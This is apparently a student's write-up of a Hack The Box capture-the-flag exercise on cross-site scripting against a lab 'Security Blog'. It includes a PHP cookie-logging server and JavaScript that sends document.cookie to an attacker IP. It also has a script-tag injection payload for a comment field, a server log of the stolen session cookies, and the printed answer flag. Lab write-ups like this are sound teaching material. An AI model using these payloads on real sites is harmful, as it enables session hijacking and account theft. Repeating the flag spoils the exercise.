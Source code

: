 ```yaml
---
sticker: lucide//code
---
```

We are performing a Web Application Penetration Testing task for a company that hired you, which just released their new `Security Blog`. In our Web Application Penetration Testing plan, we reached the part where you must test the web application against Cross-Site Scripting vulnerabilities (XSS).

Start the server below, make sure you are connected to the VPN, and access the `/assessment` directory on the server using the browser:

   

![](https://academy.hackthebox.com/storage/modules/103/xss_skills_assessment_website.jpg)

Apply the skills you learned in this module to achieve the following:

1. Identify a user-input field that is vulnerable to an XSS vulnerability
2. Find a working XSS payload that executes JavaScript code on the target's browser
3. Using the `Session Hijacking` techniques, try to steal the victim's cookies, which should contain the flag


### Identifying the vulnerable parameter
---

Once we go into the website we can see the following:

![[Pasted image 20250130180314.png]]

If we go to the `Welcome to Security Blog` URL, we can see the following:

![[Pasted image 20250130180344.png]]

At first glance, the comments section seems vulnerable to XSS, let's test some simple payload to check the behavior of the web application, we can set up the same PHP server form the [[CYBERSECURITY/Bug Bounty/HTB BUG BOUNTY HUNTER PATH/CROSS-SITE SCRIPTING (XSS)/XSS Attacks/Session Hijacking.md|Session Hijacking]] section:

```php
<?php  
if (isset($_GET['c'])) {  
$list = explode(";", $_GET['c']);  
foreach ($list as $key => $value) {  
$cookie = urldecode($value);  
$file = fopen("cookies.txt", "a+");  
fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");  
fclose($file);  
}  
}  
?>
```

```js
document.location='http://10.10.15.141/index.php?c='+document.cookie;  
new Image().src='http://10.10.15.141/index.php?c='+document.cookie;
```

We can send the payloads in each section to check which one is vulnerable:

```js
"><script src=http://10.10.15.141/script.js></script>
```

![[Pasted image 20250130181138.png]]

After a bit, we'll get the following in our server:

```
[Thu Jan 30 23:10:18 2025] PHP 8.3.15 Development Server (http://0.0.0.0:80) started
[Thu Jan 30 23:11:08 2025] 10.129.147.238:37824 Accepted
[Thu Jan 30 23:11:08 2025] 10.129.147.238:37824 [200]: GET /script.js
[Thu Jan 30 23:11:08 2025] 10.129.147.238:37824 Closing
[Thu Jan 30 23:11:08 2025] 10.129.147.238:37826 Accepted
[Thu Jan 30 23:11:08 2025] 10.129.147.238:37826 [200]: GET /index.php?c=wordpress_test_cookie=WP%20Cookie%20check;%20wp-settings-time-2=1738278667;%20flag=HTB{cr055_5173_5cr1p71n6_n1nj4}
[Thu Jan 30 23:11:08 2025] 10.129.147.238:37826 Closing
[Thu Jan 30 23:11:09 2025] 10.129.147.238:37828 Accepted
[Thu Jan 30 23:11:14 2025] 10.129.147.238:37828 Closed without sending a request; it was probably just an unused speculative preconnection
[Thu Jan 30 23:11:14 2025] 10.129.147.238:37828 Closing
```

We got the flag: `HTB{cr055_5173_5cr1p71n6_n1nj4}`

![[Pasted image 20250130181248.png]]

